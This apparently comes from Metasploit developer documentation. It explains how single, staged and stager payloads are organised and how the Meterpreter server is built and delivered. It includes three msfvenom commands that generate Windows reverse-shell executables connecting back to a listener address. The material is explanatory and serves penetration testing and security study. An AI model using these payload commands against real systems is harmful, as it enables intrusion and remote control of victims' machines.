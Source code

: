 Payloads are defined in ```modules/payloads/{singles,stages,stagers}/<platform>```. When the framework starts up, stages are combined with stagers to create a complete payload that you can use in exploits. Then, handlers are paired with payloads so the framework will know how to create sessions with a given communications mechanism.

Payloads are given reference names that indicate all the pieces, like so:
  - Staged payloads: ```<platform>/[arch]/<stage>/<stager>```
  - Single payloads: ```<platform>/[arch]/<single>```

### Singles
Single payloads are fire-and-forget. They can create a communications mechanism with Metasploit, but they don't have to. An example of a scenario where you might want a single is when the target has no network access -- a fileformat exploit delivered via USB key is still possible.

### Stagers
Stagers are a small stub designed to create some form of communication and then pass execution to the next stage. Using a stager solves two problems. First, it allows us to use a small payload initially to load up a larger payload with more functionality. Second, it makes it possible to separate the communications mechanism from the final stage so one payload can be used with multiple transports without duplicating code.

### Stages
Since the stager will have taken care of dealing with any size restrictions by allocating a big chunk of memory for us to run in, stages can be arbitrarily large. One advantage of that is the ability to write final-stage payloads in a higher-level language like C.

## Meterpreter
To avoid confusion, the victim running meterpreter is always called the server and the ruby side controlling it is always called the client, regardless of the direction of the original connection.

The Meterpreter server is broken into several pieces:
  - metsrv.dll - this is the heart of meterpreter where the protocol and extension systems are implemented
  - ext_server_stdapi.dll - this extension implements most of the commands familiar to users
  - ext_server_*.dll - other extensions provide further functionality

### Delivering Meterpreter

1. Using a technique developed by Stephen Fewer, metsrv.dll's header is modified to be usable as shellcode. From there, Metasploit can embed it in an executable or run it via an exploit like any other shellcode.

1. The IP address and port you want the payload to connect back to are embedded in the stager. As discussed above, all staged payloads are no more than a small stub that sets up communication and executes the next stage. When you create an executable using a staged payload, you're really just creating the stager. So the following commands would create functionally identical exe files:
```
    msfvenom -f exe LHOST=192.168.1.1 -p windows/meterpreter/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/shell/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/vncinject/reverse_tcp
```
(Note that these are functionally identical -- there is a lot of randomization that goes into it so no two executables are the same.)

1. The Ruby side acts as a client, speaking the meterpreter wire protocol over whichever transport mechanism was set up by the stager (tcp or http(s)).
